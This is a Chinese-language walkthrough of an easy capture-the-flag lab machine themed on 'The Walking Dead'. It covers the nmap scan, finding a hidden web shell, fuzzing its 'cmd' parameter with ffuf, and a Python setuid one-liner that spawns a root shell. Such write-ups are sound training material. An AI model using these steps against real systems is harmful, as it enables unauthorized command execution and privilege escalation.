



《The Walking Dead》又叫做《行尸走肉》，是一部更了十多年的美剧，我是全部看完了的，刚好有这个靶机，那么肯定得打一下。

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 172.17.0.2 -sV -A -p- 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0d:09:9d:0f:dc:43:54:cd:39:a9:e2:d6:81:74:40:e8 (RSA)
|   256 09:d0:f6:52:00:3f:21:51:19:b1:c6:7a:f4:ff:21:01 (ECDSA)
|_  256 19:e0:b3:72:bd:e9:1e:8d:4c:c4:fd:1f:da:3f:a5:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Walking Dead - CTF
```

访问网页，发现有一个隐藏的**shell.php**

```
[root@kali] /home/kali  
❯ curl 172.17.0.2        
<!DOCTYPE html> <html lang="es"> <head>     <meta charset="UTF-8">     <title>The Walking Dead - CTF</title>     <style>         body {             background-color: black;             color: red;             font-family: 'Courier New', monospace;             text-align: center;             margin: 0;             padding: 0;             height: 100vh;             display: flex;             flex-direction: column;             justify-content: center;             align-items: center;         }         h1 {             font-size: 50px;             text-shadow: 3px 3px 10px darkred;         }         p {             font-size: 20px;         }         .blood-drip {             font-size: 25px;             text-shadow: 3px 3px 10px darkred;             animation: blink 1s infinite alternate;         }         @keyframes blink {             from { opacity: 1; }             to { opacity: 0.5; }         }         audio {             margin-top: 20px;         }         .hidden-link {             display: none;         }     </style> </head> <body>     <h1>The Walking Dead - CTF</h1>     <p class="blood-drip">Survive... if you can.</p>     <audio autoplay loop>         <source src="walking_dead_theme.mp3" type="audio/mpeg">         Tu navegador no soporta el audio.     </audio>     <p class="hidden-link"><a href="hidden/.shell.php">Access Panel</a></p> </body> </html>
```

## Param Fuzz

尝试对参数进行爆破

```
[root@kali] /home/kali  
❯ ffuf -u 'http://172.17.0.2/hidden/.shell.php?FUZZ=id' -w ./Desktop/fuzzDicts/paramDict/AllParam.txt  -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/hidden/.shell.php?FUZZ=id
 :: Wordlist         : FUZZ: /home/kali/Desktop/fuzzDicts/paramDict/AllParam.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

cmd                     [Status: 200, Size: 54, Words: 3, Lines: 2, Duration: 3ms]
:: Progress: [74332/74332] :: Job [1/1] :: 18181 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

这里刚好试用一下群友推荐的工具

- [brightio/penelope: Penelope Shell Handler](https://github.com/brightio/penelope)



## Linpeas



可以直接提权

```
/usr/bin/python3.8 -c 'import os;os.setuid(0);os.system("bash")'
```



## Summary

似乎是有点太过简单了
